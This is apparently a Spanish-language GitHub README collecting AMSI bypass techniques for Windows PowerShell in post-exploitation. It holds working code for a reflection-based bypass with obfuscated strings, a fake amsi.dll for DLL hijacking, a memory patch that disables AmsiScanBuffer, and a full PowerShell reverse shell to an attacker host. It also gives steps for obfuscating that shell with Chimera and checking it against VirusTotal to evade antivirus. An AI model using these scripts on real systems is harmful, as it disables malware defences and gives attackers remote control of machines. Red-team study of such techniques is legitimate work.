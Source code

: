 # Técnicas de Evasión de AMSI #

Este repositorio contiene algunos métodos de evasión de AMSI que he encontrado, fueron probados en los siguiewntes sistemas operativos:

- Windows 10
- Windows 11
- Windows Server 2016
- Windows Server 2019
- Windows Server 2022

Todos en sus versión nás reciente para el momento (21H2) y probados en PowerShell 5.1 como en 7.2

Se dejaron de lado técnicas que ya han sido parchadas o que utilicen ejecutables o DLL modificadas debido a que, con el pasar del tiempo, las firmas de estos archivos son detectados por los antivirus; por esta razón se privilegiaron aquellas técnicas que puedan ser ejecutadas en memoria y con un usuario estándar lo cuales pueden ser útiles en un escenario de post explotación.

Estos scripts podrían ser detectados por AMSI en el futuro. Por lo que recomiendo usar herramientas de ofuscación como [Chimera](https://github.com/tokyoneon/Chimera) o [Invoke-Stelth](https://github.com/JoelGMSec/Invoke-Stealth).

1. [Metodo Reflection de Matt Graeber (base64)](#Método-Reflection-de-Matt-Graeber-(base64) "Goto Método-Reflection-de-Matt-Graeber-(base64)")
2. [Error Forzado](#Error-Forzado "Goto Error-Forzado")
3. [DLL Hijacking](#DLL-Hijacking "goto DLL-Hijacking")
4. [Memory Patching](#Memory-Patching "Goto Memory-Patching")
5. [Ofuscación con Chimera](#Ofuscación-con-Chimera "Goto Ofuscación-con-Chimera")

## Método Reflection de Matt Graeber (base64) ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

Fabian Mosh, utilizando un antiguo bypass de AMSI de Matt Graeber (Reflection method) pudo demostrar que si se utiliza la codificación Base64 en las cadenas (AmsiUtils & amsiInitFailed) que activan AMSI y se decodifican en tiempo de ejecución:

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
 </p>
</details>

## Error Forzado ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

Aunque originalmente esto fue revelado por Matt Graeber y posteriormente bloqueado por Microsoft. Si se evita utilizar directamente las cadenas con el uso de variables y sin necesidad de ofuscación se puede evadir el AMSI con el mismo método:

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils' 
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)   
```
 </p>
</details>

## DLL Hijacking ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Falla-red) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

Para hacerlo funcionar deben copiar la [amsi.dll](amsi.dll) que está en el repositorio (está compilada para x64). Si deseas compilar tu propia DLL abajo tienes el código fuente:

<details><summary>Código de la amsi.dll falsa</summary>
<p>
 
````C++
#include "pch.h"
#include "iostream"
 
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        LPCWSTR appName = NULL;
        typedef struct HAMSICONTEXT {
            DWORD       Signature;            // "AMSI" or 0x49534D41
            PWCHAR      AppName;           // set by AmsiInitialize
            DWORD       Antimalware;       // set by AmsiInitialize
            DWORD       SessionCount;      // increased by AmsiOpenSession
        } HAMSICONTEXT;
        typedef enum AMSI_RESULT {
            AMSI_RESULT_CLEAN,
            AMSI_RESULT_NOT_DETECTED,
            AMSI_RESULT_BLOCKED_BY_ADMIN_START,
            AMSI_RESULT_BLOCKED_BY_ADMIN_END,
            AMSI_RESULT_DETECTED
        } AMSI_RESULT;
 
        typedef struct HAMSISESSION {
            DWORD test;
        } HAMSISESSION;
 
        typedef struct r {
            DWORD r;
        };
 
        void AmsiInitialize(LPCWSTR appName, HAMSICONTEXT * amsiContext);
        void AmsiOpenSession(HAMSICONTEXT amsiContext, HAMSISESSION * amsiSession);
        void AmsiCloseSession(HAMSICONTEXT amsiContext, HAMSISESSION amsiSession);
        void AmsiResultIsMalware(r);
        void AmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiScanString(HAMSICONTEXT amsiContext, LPCWSTR string, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiUninitialize(HAMSICONTEXT amsiContext);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
````
 </p>
</details>

Una vez copiado el archivo, ejecuta el siguiente código en PowerShell:

````PowerShell
Copy-Item -Path C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Destination $pwd
& "$pwd\powershell.exe"
````

## Memory Patching ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen)

Esta es quizás la técnica más poderosa de bypass actualmente. El objetivo es parchear función AmsiScanBuffer, esta función obtiene el buffer requerido para ser escaneado y la longitud del buffer. Todo lo que hay que hacer es parchear el registro dentro de la función que contiene la longitud del buffer. Al hacerlo, el escaneo se ejecutará con una longitud de 0. Devolver 0 es igual a S_OK y S_OK significa que la función ha "escaneado la carga útil" con éxito. Esta técnica en realidad no se está haciendo un bypass de AMSI, simplemente lo deshabilta. 

<details><summary>Ver Script</summary>
<p>

```PowerShell
$Win32 = @"
 
using System;
using System.Runtime.InteropServices;
 
public class Win32 {
 
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
 
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
 
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
 
}
"@
 
Add-Type $Win32
 
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]0)
$Patch = [Byte[]] (0xc3, 0x90, 0x90)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 3)  
```
</p>
</details>

## Ofuscación con Chimera ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen)

Una vez instalado [Chimera](https://github.com/tokyoneon/Chimera) debemos adecuar el script para que se comunique con nuestra máquina atacante:

 ```bash
cd /opt/chimera
sed -i 's/192.168.56.101/10.0.2.5/g' shells/*.ps1
 ```
 
Y posteriormente levantar nuestra Reverse Shell:
 
 ```bash
nc -nlvp 4444
 ```
 
<details><summary>Nuestra Reverse Shell en PowerShell sin ofuscar</summary>
<p>
 
```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("10.0.2.5",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
</p>
</details>

Para ofuscarlo debemos ejecutar el siguiente comando (sin -b) e ir probando el resultado en [VirusTotal](https://www.virustotal.com/gui/home/upload). En los detalles alertan las siguientes funciones: new-object y out-string.<br><br>Mirando la ayuda esto es lo que podemos hacer con Chimera:

-l: Nivel 1 a 5 (no recomiendo colocarlo en 5)<br>
-f: Archivo de entrada.<br>
-o: Archivo de salida.<br>
-v: Sustituir nombres de variables.<br>
-t: Sustituir tipos de datos.<br>
-j: Sustituir nombres de funciones.<br>
-i: Insertar comentarios arbitrarios.<br>
-c: Replazar comentarios con datos arbitrarios.<br>
-h: Convertir direcciones IP a hexadecimal.<br>
-b: Marcado de palabras (importante).<br><br>Quedando finalmente:

```bash
/opt/chimera/chimera.sh -f /opt/shells/powershell_reverse_shell.ps1 -o /tmp/chimera.ps1 -l 4 -v -c -i -j -g -r -p -b new-object,out-string
 ```
Otra opción es utilizar [AMSITrigger](https://github.com/RythmStick/AMSITrigger/releases) para encontrar funciones o cadenas que activen AMSI y agreagarlas al paràmetro -b
